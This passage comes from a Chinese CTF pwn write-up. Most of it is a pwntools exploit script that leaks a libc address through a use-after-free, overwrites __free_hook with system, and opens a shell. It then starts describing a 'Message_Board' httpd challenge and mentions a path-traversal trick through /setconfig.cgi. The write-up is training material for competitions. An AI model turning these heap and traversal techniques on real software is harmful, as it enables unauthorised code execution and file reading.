 ```


def rm(name):
    sh.sendlineafter("\x1B[31m$ \x1B[m", "rm " + name)


def pwn(sh, elf, libc):
    context.log_level = "debug"
    for i in range(8):
        name = 'a' + str(i)
        touch(name)
        vi(name, str(i) * 0x100)
    ln('b', 'a7')
    ln('c', 'a6')
    for i in range(8):
        name = 'a' + str(i)
        rm(name)
    cat('b')
    libc_base = get_address(sh, True, info="libc_base:\t", offset=-(96 + 0x10 + libc.sym['__malloc_hook']))
    free_hook_addr = libc_base + libc.sym['__free_hook']
    system_addr = libc_base + libc.sym['system']
    vi('c', p64(free_hook_addr))

    touch('d')
    vi('d', '/bin/sh\x00' * (0x100 // 8))
    touch('e')
    vi('e', p64(system_addr) * (0x100 // 8))
    rm('d')
    #gdb.attach(sh)
    sh.interactive()


if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh, elf=get_file(), libc=get_libc())
    sh.close()
    log.success('The flag is ' + re.search(r'flag`{`.+`}`', flag).group())
```

感谢北邮的师傅带来这道签到题~



## Message_Board

题目实现了一个 httpd 服务器，与常规的 Web 服务器不同的是，这道题输入数据的入口是 stdin，所以对于调试来说方便了许多。

由于代码比较复杂，所以找到漏洞比较难，我这里提及一下我本来认为可能会存在的漏洞（目录穿越）

目录穿越漏洞是在 Web 服务器题目中经常会出现的漏洞，如果遇到这种类似的题目一定需要注意

比如这次比赛 AWD 环节中的 **pwn-hmos** 这题就可以利用 **/setconfig.cgi** 功能进行目录穿越，穿越到根目录读取到 flag.txt 文件

